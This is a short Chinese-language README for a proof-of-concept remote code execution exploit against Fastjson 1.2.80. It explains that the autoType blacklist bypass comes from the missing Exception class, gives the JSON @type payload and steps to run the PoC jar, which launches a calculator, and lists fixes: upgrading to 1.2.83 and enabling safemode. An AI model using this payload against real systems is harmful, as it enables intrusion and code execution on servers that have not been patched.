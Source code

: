 # fastjson-rce-1.2.80
Fastjson rce poc for 1.2.80 

### 漏洞成因
`autoType` 黑名单缺少了`Exception` 类，导致被绕过

### payload
```json
{
	"@type": "java.lang.Exception",
	"@type": "com.kk.domain.Poc",
	"name": "calc"
}
```

### 利用方式
1. 编译 `mvn clean package` ，或直接下载 [fastjson-rce-1.0.0.jar](https://github.com/dbgee/fastjson-rce-1.2.80/releases/download/v1.0.0/fastjson-rce-1.0.0.jar)
2. 运行 `java -jar .\target\fastjson-rce-1.0.0.jar`
3. 发送payload ，如果弹出计算器则利用成功
![](images/exp.png)

### 修复方式
1. 升级到最新版本 v1.2.83
2. 卸载计算器 😂🤣
3. 开启safemode
   1. 开启方法如下  

   ![](images/safemode.png)